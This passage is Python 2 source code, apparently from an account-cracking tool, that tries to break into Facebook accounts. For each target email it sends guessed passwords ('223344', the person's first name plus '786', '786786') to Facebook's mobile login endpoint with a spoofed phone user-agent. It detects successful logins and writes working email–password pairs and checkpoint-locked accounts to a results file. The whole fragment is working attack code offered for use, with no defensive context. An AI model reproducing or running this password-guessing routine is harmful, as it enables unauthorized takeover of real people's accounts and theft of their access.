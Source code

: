 								oks.append(em)
							else:
								if 'checkpoint' in xo:
									print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+pz3
									cek = open('done/bangla.txt', 'a')
									cek.write('\n   [CP] '+em+' • '+pz3)
									cek.close()
									CP.append(em)
								else:
									pz4 = '223344'
									rex = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : em, "pass" : pz4, "login" : "submit"}, headers = {"user-agent" : "Mozilla/5.0 (Linux; Android 7.0; SM-G610M Build/NRD90M) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Mobile Safari/537.36"})
									xo = rex.content
									if 'mbasic_logout_button' in xo or 'save-device' in xo:
										print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+pz4
										oke = open('done/bangla.txt', 'a')
										oke.write('\n   [OK] '+em+' • '+pz4)
										oke.close()
										oks.append(em)
									else:
										if 'checkpoint' in xo:
											print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+pz4
											cek = open('done/bangla.txt', 'a')
											cek.write('\n   [CP] '+em+' • '+pz4)
											cek.close()
											CP.append(em)
										else:
											pz5 = v['first_name'].lower()+'786'
											rex = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : em, "pass" : pz5, "login" : "submit"}, headers = {"user-agent" : "Mozilla/5.0 (Linux; Android 7.0; SM-G610M Build/NRD90M) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Mobile Safari/537.36"})
											xo = rex.content
											if 'mbasic_logout_button' in xo or 'save-device' in xo:
												print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+pz5
												oke = open('done/bangla.txt', 'a')
												oke.write('\n   [OK] '+em+' • '+pz5)
												oke.close()
												oks.append(em)
											else:
												if 'checkpoint' in xo:
													print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+pz5
													cek = open('done/bangla.txt', 'a')
													cek.write('\n   [CP] '+em+' • '+pz5)
													cek.close()
													CP.append(em)
												else:
													pz6 = '786786'
													rex = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : em, "pass" : pz6, "login" : "submit"}, headers = {"user-agent" : "Mozilla/5.0 (Linux; Android 7.0; SM-G610M Build/NRD90M) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Mobile Safari/537.36"})
													xo = rex.content
													if 'mbasic_logout_button' in xo or 'save-device' in xo:
														print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+pz6
														oke = open('done/bangla.txt', 'a')
														oke.write('\n   [OK] '+em+' • '+pz6)
														oke.close()
														oks.append(em)
													else:
														if 'checkpoint' in xo:
															print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+pz6
															cek = open('done/bangla.txt', 'a')
															cek.write('\n   [CP] '+em+' • '+pz6)
															cek.close()